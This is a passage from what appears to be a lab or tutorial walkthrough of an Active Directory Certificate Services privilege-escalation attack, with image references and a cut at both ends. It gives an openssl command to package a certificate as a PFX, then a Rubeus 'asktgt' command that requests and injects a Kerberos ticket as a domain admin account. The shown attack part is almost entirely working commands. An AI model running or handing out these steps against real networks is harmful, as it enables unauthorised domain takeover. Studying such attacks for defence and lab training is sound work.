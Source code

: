 ```cmd
openssl pkcs12 -password pass:Password123! -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
![My Image](bash.png)

FINALLY, we're ready to execute the attack!  First copy the cert.pfx to your Rubeus folder where the .exe is stored.

1. Run the below command.  This command will utilize the certificate we just created, and it will request a TGT under the username adcsuser (which is a domain admin) then the ticket generated will be automatically passed so you then you've escalated your privileges.  Open up a command prompt and first navigate to where the .exe for Rubeus is stored!
```powershell
# Run the Rubeus command to get the .kirbi
Rubeus.exe asktgt /user:adcsuser /certificate:cert.pfx /password:Password123! /ptt
```
![My Image](Rub.png)